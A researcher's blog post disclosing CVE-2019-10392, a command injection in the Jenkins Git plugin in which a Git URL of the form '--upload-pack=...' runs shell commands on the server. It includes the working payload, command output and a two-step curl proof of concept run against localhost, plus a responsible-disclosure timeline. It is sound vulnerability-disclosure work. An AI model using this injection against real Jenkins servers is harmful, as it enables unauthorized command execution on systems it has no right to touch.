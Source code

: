```yaml
---
layout: default
---
```


_**Sep 12, 2019**_

## CVE-2019-10392 — Yet Another 2k19 Authenticated Remote Command Execution in Jenkins

Two weeks ago I saw on GitHub a [nice repository about pentesting Jenkins](https://github.com/gquere/pwn_jenkins). I downloaded the latest alpine LTS build from Docker Hub and I started to play with it, ending up finding an authenticated Remote Command Execution by having an user with the `Job\Configure (USE_ITEM)` privilege. 🐱‍👤

## Discovery

I launched a Jenkins instance locally with Docker using the following command:

```bash
docker run -p 8080:8080 -p 50000:50000 jenkins/jenkins:lts-alpine
```

In my case, the software versions are:

1. Jenkins 2.176.3
2. Git Client Plugin 2.8.2
3. Git Plugin 3.12.0

I proceed through the initial configuration and created a non administrative user.

![matrix](../assets/images/matrix.png "Matrix")

After logging in as user `test`, we create a new job definition via the web user interface.
If we select in the SCM section Git as our source, we are asked to insert a Git URL.

Let's fuzz it! 🤖

If we try common command injection payloads, we noticed that we can't execute arbitary commands, but if we input the string `-v` as URL, we will receive the following output:

```text
Failed to connect to repository : Command "git ls-remote -h -v HEAD" returned status code 129:
stdout:
stderr: error: unknown switch `v'
usage: git ls-remote [--heads] [--tags] [--refs] [--upload-pack=<exec>]
                     [-q | --quiet] [--exit-code] [--get-url]
                     [--symref] [<repository> [<refs>...]]

    -q, --quiet           do not print remote URL
    --upload-pack <exec>  path of git-upload-pack on the remote host
    -t, --tags            limit to tags
    -h, --heads           limit to heads
    --refs                do not show peeled tags
    --get-url             take url.<base>.insteadOf into account
    --sort <key>          field name to sort on
    --exit-code           exit with exit code 2 if no matching refs are found
    --symref              show underlying ref in addition to the object pointed by it
    -o, --server-option <server-specific>
                          option to transmit
```

![usage](../assets/images/usage.png "Usage")

We have just discovered that command line switches are interpreted correctly by Git, thanks to the ```error: unknown switch `v'``` message.

Can we do more than printing the Git usage? Let's find it out! 🕵️

## Exploitation

I looked at `man git-ls-remote` in order to see the available command options and I noticed the `--upload-pack=<exec>` flag. By trying `--upload-pack=id`, I got:

```text
Failed to connect to repository : Command "git ls-remote -h --upload-pack=id HEAD" returned status code 128:
stdout:
stderr: id: ‘HEAD’: no such user
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
```

The command `id HEAD` was executed on the system! 🤹‍

We can control the full command being executed using the following payload: ```--upload-pack="`id`"```

```text
Failed to connect to repository : Command "git ls-remote -h --upload-pack="`id`" HEAD" returned status code 128:
stdout:
stderr: "`id`" 'HEAD': line 1: uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins): not found
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
```

![exploit](../assets/images/exploit.png "Exploit")

We successfully executed the `id` command in the context of the `jenkins` user! 💥

## Proof of Concept

First we need to retrieve the CSRF Token and then issue the request:

1. get crumb

```bash
curl 'http://localhost:8080/securityRealm/user/test/crumbIssuer/api/xml?xpath=concat(//crumbRequestField,":",//crumb)' -H 'Connection: keep-alive' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.75 Safari/537.36' -H 'DNT: 1' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8' -H 'Referer: http://localhost:8080/' -H 'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: en-US,en;q=0.9,it;q=0.8' -H 'Cookie: <COOKIES>' --compressed
```

2. send request

```bash
curl 'http://localhost:8080/job/test/descriptorByName/hudson.plugins.git.UserRemoteConfig/checkUrl' -d "value=--upload-pack=`touch /tmp/iwantmore.pizza`" -H 'Cookie: <COOKIES>' -H 'Origin: http://localhost:8080' -H 'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: en-US,en;q=0.9,it;q=0.8' -H 'X-Prototype-Version: 1.7' -H 'X-Requested-With: XMLHttpRequest' -H 'Connection: keep-alive' -H 'Jenkins-Crumb: <CRUMB>' -H 'Pragma: no-cache' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.75 Safari/537.36' -H 'Content-type: application/x-www-form-urlencoded; charset=UTF-8' -H 'Accept: text/javascript, text/html, application/xml, text/xml, */*' -H 'Cache-Control: no-cache' -H 'Referer: http://localhost:8080/job/test/configure' -H 'DNT: 1' --compressed
```

![poc](../assets/images/poc.png "Proof of Concept")

## Reporting

I reported the issue to the [Jenkins JIRA](https://issues.jenkins-ci.org/browse/SECURITY-1534) and in less than one week the vulnerability was confirmed to be fixed in the staging environment.

Props to the Jenkins team for how they managed the responsible disclosure process, in particular to [Daniel Beck](https://twitter.com/danielbeck) and [Mark Waite](https://twitter.com/MarkEWaite). 👏

## Timeline

- _2019-09-03_: vulnerability discovered
- _2019-09-03_: vulnerability reported
- _2019-09-04_: first response by the vendor
- _2019-09-04_: vulnerability acknowledged
- _2019-09-07_: fix available
- _2019-09-08_: fix confirmed
- _2019-09-08_: [CVE-2019-10392](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10392) was issued
- _2019-09-11_: [pre announcement](https://groups.google.com/forum/#!msg/jenkinsci-advisories/F6vzBKHl-Wo/nQy-VA_YAAAJ)
- _2019-09-12_: [@TheHackersNews tweet](https://twitter.com/TheHackersNews/status/1172022127752445952)
- _2019-09-12_: [fix released and public announcement](https://jenkins.io/security/advisory/2019-09-12/)

[back](../)
